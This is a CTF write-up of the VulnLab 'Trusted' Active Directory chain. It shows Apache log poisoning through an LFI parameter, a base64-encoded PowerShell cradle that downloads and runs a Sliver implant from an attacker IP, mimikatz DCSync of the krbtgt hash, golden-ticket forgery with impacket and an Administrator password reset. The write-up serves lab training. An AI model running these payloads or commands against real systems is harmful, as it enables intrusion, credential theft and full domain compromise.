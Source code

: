 ```yaml
---
title: "Trusted Writeup (VulnLab)"
date: 2025-05-21 00:00:00 +0800
image: /assets/posts/trusted/trustedPwn.png
description: An easy rated chain on vulnlab, utilising apache log poisoning for initial access, with bidirectional trust abuse and golden tickets for root.
categories: [CTF Writeups]
tags: [CTF, Red Team, Poisoning, Domain Trusts, Golden Tickets, C2, Active Directory]
---
```


# Introduction
This box presents a multi-stage Active Directory attack path across a trusted domain setup. Starting with an Apache log poisoning vulnerability for initial access, we go deeper into the environment by leveraging cross-domain trust. Through post-exploitation and enumeration, we discover a bidirectional trust between domains—allowing for a DCSync attack to extract the krbtgt hash and create a Golden Ticket, granting access to the root domain controller.

## NMAP Port scans
We start off our writeup with an NMAP scan targeting 2 IP Addresses, they include:
```bash
10.10.218.86
10.10.218.85
```
```bash
sudo nmap -sS -sV -A -p- --min-rate 2500 -iL hosts.txt -oA nmapScan --disable-arp-ping --source-port=53
```
![NMAP Scan Result](../assets/posts/trusted/nmapscanresult1.png)
![NMAP Scan Result 2](../assets/posts/trusted/nmapscanresult2.png)


## User Flag

### HTTP Enumeration
From the results, it is clear that these machines are both Domain Controllers, I’ll target the ‘labdc.trusted.vl’ DC first, by browsing to the site on Port 80 HTTP: 
![xampp](../assets/posts/trusted/xampp.png)
The site showcases a default XAMPP webpage, we can perform directory brute-forcing using feroxbuster in an attempt to uncover any hidden directories that exist:
```bash
feroxbuster -u http://labdc.lab.trusted.vl -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -t 20
```
```bash
301      GET        9l       30w      350c http://labdc.lab.trusted.vl/dev => http://labdc.lab.trusted.vl/dev/
301      GET        9l       30w      357c http://labdc.lab.trusted.vl/dev/images => http://labdc.lab.trusted.vl/dev/images/
301      GET        9l       30w      354c http://labdc.lab.trusted.vl/dev/css => http://labdc.lab.trusted.vl/dev/css/
200      GET      612l     1583w    11331c http://labdc.lab.trusted.vl/dev/css/style.css
200      GET       31l      195w    17155c http://labdc.lab.trusted.vl/dev/images/logo.png
200      GET       35l      209w    17125c http://labdc.lab.trusted.vl/dev/images/meeting.jpg
200      GET       30l      162w    11333c http://labdc.lab.trusted.vl/dev/images/smile.jpg
200      GET       24l      156w    11896c http://labdc.lab.trusted.vl/dev/images/family-small.jpg
```
A directory is discovered under ‘/dev’, manually viewing this webpage presents us with a lawyer's website along with a suspicious parameter ‘?view=’:
![http1](../assets/posts/trusted/http1.png)

### Apache Log Poisoning to C2 Session
We can exploit the discovered parameter through apache log poisoning, this was uncovered after manually viewing the source code of the index page through php filtering:
```bash
https://labdc.lab.trusted.vl/dev/index.html?view=php://filter/convert.base64-encode/resource=index.html
```
```bash
base64 -d source.b64 > index.html
```
![httpvuln1](../assets/posts/trusted/httpvuln1.png)
The vulnerable area is the unsanitised usage of PHP’s include function. We can check for the existence of the access.log file to see if it’d be vulnerable to log poisioning:
```bash
https://labdc.lab.trusted.vl/dev/index.html?view=C:/xampp/apache/logs/access.log
```
![httpvuln2](../assets/posts/trusted/httpvuln2.png)

After confirmation that the access.log file exists on the server, we can create a powershell payload to be executed, this code downloads a Sliver session payload, stores it in the users temp directory and proceeds to execute it:
```bash
$u="http://10.8.4.194:443/output.exe";$f="$env:TEMP\output.exe.exe";Invoke-WebRequest $u -OutFile $f;Start-Process $f
```
With our completed payload, we have to convert it into UTF-16LE and then base64 encode so it is in a readable format for powershell. Then we can finally send our payload as the user-agent to the website:
```bash
 curl -A "<?php system('powershell -e JAB1AD0AIgBoAHQAdABwADoALwAvADEAMAAuADgALgA0AC4AMQA5ADQAOgA0ADQAMwAvAG8AdQB0AHAAdQB0AC4AZQB4AGUAIgA7ACQAZgA9ACIAJABlAG4AdgA6AFQARQBNAFAAXABvAHUAdABwAHUAdAAuAGUAeABlAC4AZQB4AGUAIgA7AEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgACQAdQAgAC0ATwB1AHQARgBpAGwAZQAgACQAZgA7AFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAkAGYACgA='); ?>" http://labdc.lab.trusted.vl/dev/index.html?view=me
 ```
 We can then execute the payload by visiting the access.log file:
 ```bash
 curl -X GET https://labdc.lab.trusted.vl/dev/index.html?view=C:/xampp/apache/logs/access.log --insecure
 ```

 Accessing the file automatically executes our powershell payload and we are granted a C2 Session:
 ![session](../assets/posts/trusted/session.png)

 We can read the user.txt flag from the directory 'C:\users\Administrator\Desktop\user.txt':
 ```bash
 type C:\users\Administrator\Desktop\user.txt
 ```
![session](../assets/posts/trusted/user.png)

## Root Flag

 ### LABDC.lab.trusted.vl Enumeration and Post-Exploitation
 We can then gather domain information using sliver’s armory implementation of sharphound:
 ```bash
 sharp-hound-4 -s -t 300 -- -c all,gpolocalgroup
 ```
 ![sharp](../assets/posts/trusted/sharp.png)
 SharpHound didn’t yield any useful results, however we know from previous enumeration that lab.trusted.vl is a child domain of trusted.vl. Mimikatz can be used to enumerate the inbound and outbound trusts:
 ```bash
 mimikatz "privilege::debug" "\"lsadump::trust /patch"
 ```
![mimitrust](../assets/posts/trusted/mimitrust.png)
From the mimikatz output, it is clear there is a bidirectional trust between the child and root domain, the domain SIDS are retrieved from the mimikatz output.
```bash
LAB.TRUSTED.VL (LAB / S-1-5-21-2241985869-2159962460-1278545866)
TRUSTED.VL (TRUSTED / S-1-5-21-3576695518-347000760-3731839591)
```

### Abusing Bidirectional Trust: DCSync to Golden Ticket
As there is a bidirectional trust, we can DCSync and grab the ‘krbtgt’ hash from the compromised 'labdc.lab.trusted.vl' machine. To later perform a golden ticket attack:
```bash
mimikatz "privilege::debug" "\"lsadump::dcsync /domain:lab.trusted.vl /user:LAB\krbtgt"
```
![mimidcsync](../assets/posts/trusted/mimidcsync.png)
After successful retrieval of the krbtgt hash, we can combine the domain sids and the hash to create a golden ticket for the root domain ‘trusted.vl’:
```bash
impacket-ticketer -nthash c7a03c565c68c6fac5f8913fab576ebd -domain lab.trusted.vl -domain-sid "S-1-5-21-2241985869-2159962460-1278545866" -extra-sid "S-1-5-21-3576695518-347000760-3731839591-512" Administrator -extra-pac
```
![gldnticket](../assets/posts/trusted/gldnticket.png)
With our golden ticket now created, we can set it as our kerberos ticket within the attacking OS:
```bash
export KRB55CNAME=Administrator.ccache
```
Then finally, psexec into the ‘trusteddc.trusted.vl’ domain controller using our golden ticket:
```bash
impacket-psexec 'lab.trusted.vl/Administrator@trusteddc.trusted.vl' -k -no-pass -target-ip 10.10.218.85
```
![psexec](../assets/posts/trusted/psexec.png)

As we are now logged in as NT AUTHORITY\SYSTEM, we can read the root flag right? WRONG!. The flag is EFS encrypted, therefore, we must reset the Administrators password and RDP into the box to decrypt the flag:
```bash
net user Administrator password123456@
```
```bash
xfreerdp3 /u:Administrator /p:password123456@ /v:trusteddc.trusted.vl +clipboard
```
![root](../assets/posts/trusted/root.png)
